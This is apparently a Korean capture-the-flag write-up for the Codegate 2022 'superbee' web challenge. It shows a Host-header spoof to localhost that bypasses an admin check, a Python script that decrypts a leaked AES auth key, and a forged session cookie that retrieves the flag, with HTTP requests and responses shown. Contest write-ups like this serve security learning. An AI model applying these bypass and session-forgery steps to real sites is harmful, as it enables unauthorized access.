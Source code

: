
다음 코드를 보면, AdminController에 접근하기 위해서는 localhost여야 하는데, 이는 그냥 버프에서 host명을 localhost로 바꿔주면 된다.

```go
...
else if controllerName == "AdminController" {
        domain := this.Ctx.Input.Domain()

        if domain != "localhost" {
            this.Abort("Not Local")
            return
        }
    }
...
```

```
[ Request ]
GET /admin/authkey HTTP/1.1
Host: localhost:30001
...
Connection: close

[ Response ]
HTTP/1.1 200 OK
...

00fb3dcf5ecaad607aeb0c91e9b194d9f9f9e263cebd55cdf1ec2a327d033be657c2582de2ef1ba6d77fd22784011607
```

위 AES128 암호문을 복호화하면 다음과 같이 나온다.

```python
from Crypto.Cipher import AES
key = b'\x10' * 16
aes = AES.new(key, AES.MODE_CBC, key)
plaintext = aes.decrypt(bytes.fromhex('00fb3dcf5ecaad607aeb0c91e9b194d9f9f9e263cebd55cdf1ec2a327d033be657c2582de2ef1ba6d77fd22784011607'))
print(plaintext)

$ python3 sol.py
b'Th15_sup3r_s3cr3t_K3y_N3v3r_B3_L34k3d\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b'
```

이제 문제의 핵심이었던, Session을 만들고 Cookie로 설정한 다음에 index에 요청을 날리면 된다.

```
[ Request ]
GET /main/index HTTP/1.1
Host: 3.39.49.174:30001
Cookie: f5b338d6bca36d47ee04d93d08c57861=e52f118374179d24fa20ebcceb95c2af;
...
Connection: close

[ Response ]
HTTP/1.1 200 OK
...
Connection: close

<html>
    <head>
        <title>superbee</title>
    </head>
    <body>
        <h3>Index</h3>
        codegate2022{d9adbe86f4ecc93944e77183e1dc6342}
    </body>
</html>
```